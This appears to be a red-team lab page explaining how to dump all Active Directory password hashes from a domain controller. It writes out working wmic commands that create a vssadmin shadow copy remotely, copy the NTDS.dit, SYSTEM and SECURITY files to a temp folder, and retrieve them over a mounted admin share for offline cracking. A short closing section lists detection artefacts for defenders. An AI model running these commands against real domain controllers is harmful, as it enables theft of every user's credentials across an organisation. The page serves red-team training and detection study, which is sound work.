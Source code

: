 # Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-23-213609.png)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode %}

Below shows the above command executed on the attacking machine \(right\) and the files being dumped to c:\temp on the DC01 on the left:

![](../../.gitbook/assets/dc-dump%20%281%29.gif)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode %}

![](../../.gitbook/assets/annotation-2019-05-23-222654.png)

Now, of you go extracting hashes with secretsdump as shown here:

{% page-ref page="ntds.dit-enumeration.md" %}

## Observations

A quick note for defenders on the proces ancestry:

![](../../.gitbook/assets/annotation-2019-05-23-213352.png)

and of course commandlines:

![](../../.gitbook/assets/annotation-2019-05-23-223432.png)

as well as service states:

![](../../.gitbook/assets/annotation-2019-05-23-223157.png)

...and of course the lateral movement piece:

![](../../.gitbook/assets/annotation-2019-05-23-230027.png)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)

